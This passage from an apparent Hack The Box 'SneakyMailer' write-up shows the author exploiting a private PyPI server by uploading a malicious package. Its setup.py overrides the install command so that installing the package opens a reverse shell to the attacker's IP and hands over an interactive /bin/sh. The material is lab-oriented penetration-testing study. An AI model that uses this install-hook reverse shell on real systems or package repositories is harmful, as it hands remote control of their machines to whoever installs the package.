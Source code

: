 The server is running on the same homepage as the file name suggests it. I add it to the hosts file and visit the webpage ([http://pypi.sneakycorp.htb:8080/](http://pypi.sneakycorp.htb:8080/)):

![Untitled](/assets/images/2021-09-29-sneakymailer/Untitled3.png)

You can exploit this system by uploading packages to the page. Here is an example (you need some additional files in order to make this work, but I wanted to mention it here):

[GitHub - mschwager/0wned: Code execution via Python package installation.](https://github.com/mschwager/0wned)

I need to create the following structure to exploit the server (The files can be empty):

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/sneakymailer]
└─$ tree revshell
revshell
├── README.md
├── revshell
│   └── __init__.py
├── setup.cfg
└── setup.py

1 directory, 4 files
```

Now, edit [setup.py](http://setup.py) and insert the following code:

```python
import os
import socket
import subprocess
from setuptools import setup
from setuptools.command.install import install

class Exploit(install):
    def run(self):
        RHOST = '10.10.16.6'
        RPORT = 443
        s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect((RHOST, RPORT))
        for i in range(3):
            os.dup2(s.fileno(), i)
        p = subprocess.call(["/bin/sh","-i"])

```